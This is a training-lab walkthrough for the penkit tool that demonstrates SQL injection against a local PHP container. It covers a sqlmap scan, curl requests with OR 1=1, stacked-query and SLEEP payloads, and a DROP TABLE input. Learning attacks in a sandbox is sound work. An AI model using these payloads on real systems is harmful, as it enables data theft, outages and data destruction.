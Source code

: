 ## PHP SQL Injection

### Background

PHP is a web programming language that is incredibly easy to learn. Unfortunately, this low barrier to entry results in a lot of poorly written code in production.

A very common operation on a website is to take user input and perform some sort of operation on the database with that input. If the user input is not carefuly collected and vetted, the site can be vulnerable to SQL Injection. SQL Injection is a type of attack where an attacker can execute SQL commands by passing unexpected input to the server.

Example:

If you were writing a very basic address book application where you could search the database by your friends' first name. You might write a query like this:

```sql
/* Go into the contacts table and pull out all contacts that match the the provided name */
SELECT * FROM contacts WHERE name = 'name_goes_here';
```

In order to fill in the blank (name_goes_here), you may program your app to accept something like a `GET` request with the `name` parameter. Constructing the query before it gets sent to the database may look like this:

```php
<?php
  $query = "SELECT * FROM contacts WHERE name = '" . $_GET["name"] . "';";
?>
```

If the user types `Bob` in the search box then you will not have a problem -- but what if he or she types in:

```
Bob' OR 1=1;
```

Let's find out.

### Setup

First, we need to use penkit to start our `php-sql-injection` image

```
$ penkit start php-sql-injection
```

Confirm that the container is running.

```
$ penkit ps
```



### Discovery

Now that our image is up and running, let's time some time to investigate how the site works. The first (and easiest) step towards learning more about this site is to visit it in the web browser (`localhost:8080`).

When you visit the site you will see that it has pretty much one function. Type in a number and get an animal. When you search an animal the site will also tell you how many times that animal has previously been searched.

After you type in a number and get your animal, have a look at the url bar:

```
http://localhost:8080/?id=1
```

That `id=1` part is called a `GET` parameter. This is how the web app receives your input.

Now that you have found a way to send data to the website, let's launch sqlmap.

```
$ penkit sqlmap -u localhost:8080
$ docker run --rm -it --net=host penkit/cli:sqlmap -u localhost:8080/?id=1
```

After answering a few prompts, sqlmap will start to perform its tests on that parameter. Eventually, you will get its report.

```
sqlmap identified the following injection point(s) with a total of 275 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1448=1448

    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)
---
```

With this data we now know exactly which types of SQL injection this site is vulnerable to.

### Exploit

Let's tackle them in order.

Let's try that `AND` statement.

```
$ curl http://localhost:8080/?id=1%20AND%201%20=%201
```

SQL translation:

```sql
SELECT * FROM animals WHERE id = 1 AND 1 = 1;
```

As you can see, the server returns "Aardvark" just like it should. What if we try an `OR` statement?

```
$ curl http://localhost:8080/?id=1%20OR%201%20=%201
```

SQL translation:

```sql
SELECT * FROM animals WHERE id = 1 OR 1 = 1;
```

As you can see, the server has dumped its entire list of animals! This works because the database is told "Give me every record from the table `animals` where the `id` is equal to `1` `OR` `1=1`." Since `1=1` is true for every record, the database returns every record that it has.

Now for stacked queries. This is a particularly dangerous type of SQL injection that allows an attacker to execute any command that they would like. Let's issue a request to find out more about the `animals` table.

``
$ curl http://localhost:8080/?id=1%3B+describe+animals%3B
``

SQL translation:

```sql
SELECT * FROM animals WHERE id = 1; DESCRIBE animals;
```

The server now will return information about the `animals` table.

And finally, let's look at this sleep command.

```sql
SELECT * FROM animals WHERE id = 1 AND SLEEP(5)
```

The server may seem like it's doing nothing but it is actually doing is sleeping for 5 seconds! An attacker could easily leverage this attack to render a server useless.


When you're done experimenting, go ahead and give this one a shot:

```sql
1; DROP TABLE animals;
```

And tear down penkit containers.

```
$ penkit rm
```

### Summary

You can mitigate this risk by:

- Ensuring that your SQL queries are sanitized.
- Never allow multiple SQL commands to be executed at once.